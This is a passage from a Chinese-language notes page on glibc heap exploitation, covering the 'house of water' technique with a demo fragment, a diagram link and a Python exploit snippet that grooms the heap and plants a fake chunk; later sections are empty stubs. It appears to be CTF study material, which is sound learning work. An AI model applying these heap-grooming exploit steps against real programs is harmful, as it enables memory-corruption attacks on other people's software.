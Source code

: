 ```c
    malloc(0x2e0);

    puts("done!");
}
```

## 图解

![house_of_water](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/imageshouse_of_water.png)

## house of water堆风水

实际操作中，若不含有`edit`功能，可能难以布置堆风水。这里可以参照本页面的`UAF`构建堆块重叠部分。

我们可以通过不断重分配堆块，让欲编辑的堆块上方的指针也可控。

一个使用过的`exp`如下所示：

```python
add(size=0x4f0, content=b'a') # 9, c160 & c170
add(size=0x4f0, content=b'a') # 10 c660 & c670

delete(9)
delete(10)

add(size=0x4e0, content=b'a') # 11 c160 & c170
add(size=0x500, content=b'a') # 12 c650 & c660

delete(11)
delete(12)

add(size=0x4d0, content=b'a') # 13 c160 & c170
add(size=0x510, content=b'a') # 14 c640 & c650
add(size=0xf0, content=b'gap') # 15

delete(14)
add(0x20, content=p64(0)+p64(0x51)+p64(0)+p64(0x21)) # 16，用于在其中编辑一个fake chunk
add(0xf0, content=b'a') # 17，要控制的堆块
add(0x300, content=b'a') # 18，剩下的部分，申请回来防止干扰
add(0xd0, content=b'a') # 19，同样为剩下的部分，分两次申请回来而已
```





# house of spirit

施工中

# house of force
